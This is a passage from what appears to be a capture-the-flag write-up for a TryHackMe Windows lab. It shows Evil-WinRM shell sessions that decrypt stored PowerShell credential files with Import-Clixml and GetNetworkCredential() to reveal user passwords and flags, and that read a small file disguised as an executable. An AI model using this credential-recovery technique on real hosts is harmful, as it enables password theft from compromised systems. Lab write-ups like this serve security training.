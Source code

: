 ```powershell
*Evil-WinRM* PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"
*Evil-WinRM* PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
THM{694362e877adef0d85a92e6d17551fe4}
```

### **xyanld3**

* we need to login as xyanld3 user to do this.

```powershell
*Evil-WinRM* PS C:\Users\xyan1d3> $Credential = Import-Clixml -Path "xyan1d3.xml"
*Evil-WinRM* PS C:\Users\xyan1d3> $Credential.GetNetworkCredential().password
LOL here it is -> THM{62ca7e0b901aa8f0b233cade0839b5bb}
```

### **twilliams**

* looking in Tyson Williams (twilliams) home folder.

```powershell
*Evil-WinRM* PS C:\users\twilliams> dir


    Directory: C:\users\twilliams


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018  12:19 AM                Desktop
d-r---        2/25/2021  10:18 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos
-a----        2/25/2021  10:20 AM             80 definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_de
                                                 finitely_definitely_not_a_flag.exe
```

* we have a executable here saying its not a flag.
* but the file seems very small to be an executable, let’s see if we can look at the contents.

```powershell
*Evil-WinRM* PS C:\Users\twilliams> type .\definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_not_a_flag.exe
THM{5144f2c4107b7cab04916724e3749fb0}
```

**root**
